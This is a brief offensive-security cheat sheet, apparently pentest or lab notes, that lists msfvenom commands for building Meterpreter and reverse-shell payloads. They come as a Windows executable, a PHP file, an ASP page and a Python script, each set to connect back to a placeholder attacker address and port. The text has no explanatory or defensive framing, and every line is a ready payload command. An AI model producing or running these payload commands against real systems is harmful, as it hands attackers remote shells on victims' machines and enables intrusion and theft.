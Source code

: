 # 🪟 Windows

Windows

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev\_shell.exe

PHP

msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev\_shell.php

ASP

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp

Python

msfvenom -p cmd/unix/reverse\_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev\_shell.py
